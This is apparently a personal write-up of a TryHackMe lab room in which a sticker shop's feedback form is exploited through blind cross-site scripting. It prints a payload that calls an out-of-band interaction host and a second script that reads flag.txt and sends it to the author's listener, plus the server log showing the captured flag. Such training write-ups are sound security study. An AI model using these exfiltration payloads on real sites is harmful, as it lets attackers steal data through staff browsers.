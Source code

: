 
[[TryHackMe]] Room

**Date**: 13/02/25
**Target IP**: 10.10.245.51

---

> [!NOTE] Prompt
> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
> 
> Can you read the flag at `http://10.10.245.51:8080/flag.txt`?

---

The /flag.txt gives a 401 unauthorized error. There's a submit feedback endpoint that suggests that staff will interact with our input.

I had to check the walkthrough. Turns out its Blind XSS. We can test for presence of Blind XSS using an OOB interaction with Interact.sh with the following payload :

```js
'"><script src=http://cumsc1ff3mbh3u2l0v10c6ipgf4cgyb1k.oast.live></script>
```

I get a DNS lookup. Next I have to figure out how to send the flag content to myself.

Have to use JavaScript and a Python HTTP server to obtain the flag :

```js
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.4.122.80:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

```
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.245.51 - - [13/Feb/2025 16:01:06] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

